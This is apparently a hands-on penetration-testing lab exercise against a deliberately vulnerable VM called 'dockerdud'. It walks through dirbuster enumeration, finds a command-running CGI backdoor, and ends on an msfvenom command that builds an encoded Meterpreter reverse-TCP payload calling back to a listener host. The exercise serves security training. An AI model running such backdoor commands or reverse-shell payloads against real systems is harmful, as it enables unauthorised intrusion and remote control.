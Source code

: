 ```yaml
---
layout: exercise
exercise: 20
title: "Exercise: Docker Attack (using DockerDud)"
vm: dockerdud
tools: dirbuster metasploit-framework openssh-client
directories_to_sync: ssh-config
---
```


## Steps


1. Let's check for a port 80 web page. Visit this URL:

    <http://dockerdud>

2. Start up a fresh lxterminal by clicking the "sparrow" logo in the bottom-left corner of the screen, clicking run, typing `lxterminal` and hitting enter. 

3. Let's fire up `dirbuster` to look for more interesting content.

    ```shell
    dirbuster
    ```

4. In the `dirbuster` window, fill out the target URL with <http://dockerdud>

5. To complete the "File with list of dirs/files" box, choose the "Browse" box to its right, then navigate that window to `/usr/share/dirbuster/wordlists/` and choose `directory-list-lowercase-2.3-small.txt`.

6. Make sure that "Be recursive." is checked.

7. Click the "Use Blank Extension" checkbox.

8. Now click the "Start" button in the lower right corner of the `dirbuster` window.

9. Now click the "Results-List View" tab to see the results update in real time.

10. Stop the scan when it finds "garbage." The amount of time this takes depends on the number of requests per second you see. In one test, at 422 requests per second, this took 7 minutes. If you'd like, let this run but skip to the next step, stipulating that you found "garbage" in the results.

11. We found a simple CGI script that runs commands, clearly placed at the insistence of the Hackers movie villain, "The Plague". Check it out by surfing to:

    <http://dockerdud/cgi-bin/garbage>

12. In the "Command" window, enter `id` and hit the `Enter` key. You'll see what user this backdoor is running as.

13. Now, let's get a Meterpreter binary running via this backdoor.  Start up a terminal and create a fresh Meterpreter binary:

    ```shell
    
    msfvenom -a x86 --platform linux -p linux/x86/meterpreter/reverse_tcp \
    LHOST=10.23.58.30 LPORT=4444 -e x86/shikata_ga_nai -o mrsbin -f elf
    ```
